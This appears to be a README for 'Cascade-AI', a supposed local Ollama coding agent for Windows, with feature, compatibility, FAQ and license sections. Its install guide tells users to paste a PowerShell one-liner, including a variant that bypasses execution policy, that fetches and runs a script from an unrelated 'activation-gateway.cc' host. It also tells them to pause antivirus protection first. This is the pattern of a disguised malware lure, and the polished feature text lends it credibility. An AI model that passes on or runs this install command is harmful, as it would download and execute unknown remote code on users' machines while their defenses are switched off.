





<div align="center">

# Cascade-AI: Local-First Ollama Coding Agent & App Builder for Windows 11



[]() []() []()

</div>

---

Cascade AI is a local-first, Ollama-native coding agent and app builder that keeps prompts, source code, and project data entirely on the host machine, with no account, telemetry, or usage caps. A single headless engine drives every frontend, so the same agent loop powers the desktop client and any other interface attached to it. The engine plans work, writes files, installs dependencies, runs builds, and repairs its own errors, with each turn traced on disk and Every change saved as a restorable version. Multiple agents, sub-agents, memory, and context compaction are managed by the engine, allowing local models to complete whole-app builds without cloud inference.

## 🚀 PowerShell Install Guide

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Prepare PowerShell
* Press `Win + X` on your keyboard.
* Click on **Terminal** or **Windows PowerShell** from the list.

### 2️⃣ Run the install command
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ Windows blocking the script? Use CMD
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If security software blocks the setup, temporarily pause Real-Time Protection, run the script, then re-enable it.

## ✅ Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Headless agent engine.** A single detached engine process does the planning, file editing, package installation, build execution and error recovery. Every frontend connects to it over a local interface, so the same agent drives the desktop app, the browser UI and the editor extension.

- **Local-first execution.** Prompts, generated source, run traces and model weights stay on the host machine. No account, no sign-up, no telemetry and no per-token usage caps.

- **Ollama-native model layer.** Models are discovered and invoked directly through a local Ollama runtime. Any tool-calling model in the local library is selectable, with per-model context window, output length and sampling parameters configurable from the app.

- **Full agent loop.** Tool use, permission gating, sub-agent delegation, persistent memory and context compaction are handled by the engine. The loop is tuned for whole-application generation on constrained local models, not single-file completions.

- **Sandboxed project execution.** Each project builds and runs inside an isolated container. The agent can install dependencies and run arbitrary commands without access to the rest of the host filesystem.

- **Live preview with device modes.** The running application is rendered side by side with the conversation, switchable between desktop, tablet and phone viewports, with automatic reload as files change.

- **Integrated code editor.** A file tree, tabbed editing and a full editor surface are built in, so generated source can be inspected and modified without an external IDE.

- **Per-project terminal.** Commands execute in the project's own shell inside the sandbox, with output streamed into the activity timeline.

- **Version history.** Every agent turn is captured as a restorable version. Any earlier state of the project can be reinstated without manual snapshots.

- **Activity timeline.** Planning steps, file writes, installs, builds and dev-server checks are surfaced live, giving a continuous record of what the agent is doing and why.

- **Run tracing (Observatory).** Each model call, tool call and token count is written to a trace file on disk and rendered in the app. No external tracing service is involved.

- **Connectors via MCP.** The Model Context Protocol is supported for adding tools, and any MCP server can be attached by address. Connectors extend the agent with capabilities such as search and live documentation lookup.

- **Multiple frontends, one engine.** The desktop application, browser-based builder and editor extension are clients of the same headless engine, so project state, model configuration and history stay consistent across them.

- **Editor extension.** The engine is exposed inside a code editor for work against existing repositories, using the same agent loop and tool set as the standalone app.

- **Project templates.** Builds start from a React, Vite and Tailwind baseline or from a blank project, and the agent maintains a passing build as it iterates.

## How it works

**Describe the target.** Enter a plain-language description of the application you want — a dashboard, a storefront, a small game — and select a starting point: a preconfigured React template or an empty project. The request is handed to the headless engine, which owns the entire build lifecycle independent of any interface attached to it.

**Plan, write, verify.** The agent decomposes the request into a task plan, generates the project files, installs dependencies, and executes the build. When the build fails, the agent reads the error output and iterates on its own changes until the build is green. A sandboxed execution environment isolates every project: package installs and shell commands run inside the project's own container, so the agent can work freely without affecting the host system.

**Observe every step.** Each model call, tool invocation, and token count is streamed to an activity timeline and persisted as a trace on disk. The timeline exposes the agent's reasoning at each stage — planning, file writes, dependency resolution, dev-server checks — so the build is auditable rather than opaque.

**Preview and iterate.** Once the development server is live, the application renders in an embedded preview at desktop, tablet, or phone viewport sizes. Subsequent requests are applied incrementally to the existing project, and every turn is captured as a restorable version. The agent retains project state across turns through memory and context compaction, keeping long builds coherent even as the conversation grows.

**Swap the frontend, keep the engine.** The engine is headless and frontend-agnostic. The same build pipeline drives the desktop application, the browser-based builder UI, and the editor extension, each communicating with the engine over a local interface. No component in this chain requires a cloud service, an account, or outbound telemetry — models are served through Ollama on the local machine, and all project data, versions, and traces remain in the project folder.

## Compatibility

cascade-ai is designed to run across the major desktop platforms and integrates directly with a local Ollama runtime.

**Operating systems**
- Windows 10 and 11 (x64 and arm64)
- macOS 13 Ventura or later (Apple silicon and Intel)
- Linux distributions with a current glibc (x64 and arm64)

**Runtime requirements**
- A local Ollama installation for model inference; the engine connects to the Ollama endpoint on the host.
- Node.js 20 or later for the headless engine and the desktop frontend.
- Enough system memory to hold your selected model, plus headroom for the project sandbox. Smaller quantized models run comfortably on ordinary laptops; larger models scale with available RAM or VRAM.

**Model compatibility**
- Any Ollama-served model that exposes tool calling. Qwen, Llama, gpt-oss, DeepSeek, Gemma, Mistral, and Devstral families are supported.
- A context window of at least 32k tokens is recommended; 64k or more improves whole-app builds.
- Hosted and self-hosted OpenAI-compatible endpoints (vLLM, SGLang, LM Studio, and similar) can be configured as providers when you prefer not to run models locally.

**Frontends**
- The desktop application bundles the builder UI and connects to the same headless engine used by the command-line and editor integrations.
- The engine exposes a stable local interface, so alternate frontends can target it without changes to the core.

**Sandboxing**
- Project execution is isolated per project. Container runtimes are used where available to keep builds and commands away from the host system.
- On Windows, WSL can serve as the sandbox runtime when a container runtime is not present.

**Network behavior**
- cascade-ai is local-first: prompts, generated code, and project data stay on your machine.
- Outbound network access is only needed to fetch models, pull packages during a build, or reach a configured hosted provider.

**Known constraints**
- Tool-calling support is required; models without it are filtered out of the picker.
- Very large models may exceed available memory on lower-spec machines; the model manager reports context and output limits so you can tune selections per device.

## 📸 Screenshot









## FAQ

**Is cascade-ai really free?** Yes. The project is MIT licensed, with no paid tier, seat licenses, or feature gating.

**Does it require an internet connection?** Not for building or running apps. Internet access is only needed to download models and package dependencies; the engine, sandboxed projects, and live preview all operate locally.

**Do I need a GPU?** Only as much as your chosen model requires. Smaller Ollama models run on ordinary laptops; larger models need more memory but produce more complete apps. Hosted OpenAI-compatible endpoints are also supported.

**Is Docker required?** For the desktop builder, yes. Each project runs in its own container to keep the agent sandboxed from the rest of your system. On Windows, WSL can serve as the container runtime.

**Which models are supported?** Any model with tool-calling capability. Local models are served through Ollama (Qwen, Llama, gpt-oss, DeepSeek, Gemma, Mistral, and others). Hosted models work through OpenAI, Groq, OpenRouter, NVIDIA, or any OpenAI-compatible endpoint such as vLLM, SGLang, or LM Studio.

**Can cascade-ai modify an existing codebase?** Yes. The VS Code extension runs the same headless engine against your own repositories, so the agent can work on projects outside the built-in builder.

**How does the sandbox isolate projects?** Each project gets its own container with its own filesystem and dependencies. The agent can install packages and run commands inside that container without touching the host system or other projects.

**Where is my data stored?** Entirely in the project folder: source code, saved version history, the agent's task list, and a full trace of every run including model calls, tool calls, and token counts. Nothing is sent off-machine unless you point the engine at a hosted provider.

**What context window do I need?** A 32k context window works for basic builds; 64k or more is noticeably better for whole-app generation, since the agent must hold the project structure, prior turns, and tool output in context.

**Can I bring my own API key for hosted models?** Yes. Keys stay on your machine and are used only by the engine when you select a hosted provider.

## Disclaimer

cascade-ai is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and non-infringement. Use of the software is at your own sole risk.

cascade-ai executes commands, writes files, and installs packages on your behalf as part of its agent loop. Although the engine runs project workloads inside sandboxed containers, you remain responsible for reviewing the scope of permissions granted to the agent, the contents of any project it modifies, and the environment in which the software is run. Always operate against version-controlled project directories and maintain independent backups of important data.

cascade-ai relies on third-party components that are distributed under their own licenses and terms, including Ollama and the local models you choose to run, container runtime services, and Node.js. Your use of those components is governed by their respective agreements, and cascade-ai makes no representations regarding their availability, behavior, or output.

Model-generated code and content may be incomplete, insecure, or incorrect. Outputs produced by local or hosted language models are not reviewed, validated, or endorsed by the cascade-ai project. You are responsible for testing, auditing, and securing any code the agent produces before deploying or distributing it.

The cascade-ai project and its contributors accept no liability for any direct, indirect, incidental, special, consequential, or exemplary damages arising from the use of, or inability to use, the software, including but not limited to loss of data, loss of profits, or business interruption, even if advised of the possibility of such damages.

Nothing in this disclaimer limits or excludes any liability that cannot be limited or excluded under applicable law.

## License

cascade-ai is released under the MIT License, a permissive open-source license chosen to keep the engine, the desktop frontend, and every integration point freely usable, modifiable, and redistributable.

Under the terms of the MIT License, you are permitted to use cascade-ai in personal, academic, and commercial contexts without restriction. You may inspect, modify, and extend the source, embed the headless engine in other tooling, package the desktop application alongside your own products, and redistribute either the original or a modified build. The only substantive obligation is preservation of the copyright notice and the license text in distributed copies or substantial portions of the software.

The license is granted on an "as is" basis, without warranty of any kind, express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, and non-infringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability arising from, out of, or in connection with the software or its use.

Because cascade-ai is local-first and Ollama-native, no component of the runtime imposes telemetry, licensing checks, or account-bound restrictions that would conflict with the terms above. Third-party dependencies bundled with the application remain governed by their own respective licenses; consult the dependency manifests distributed with the source for the complete set of applicable terms.

The full license text is provided in the LICENSE file at the root of the project and governs use of the software in all of its distribution forms: source, packaged desktop builds, and any embedded or derivative deployments of the engine.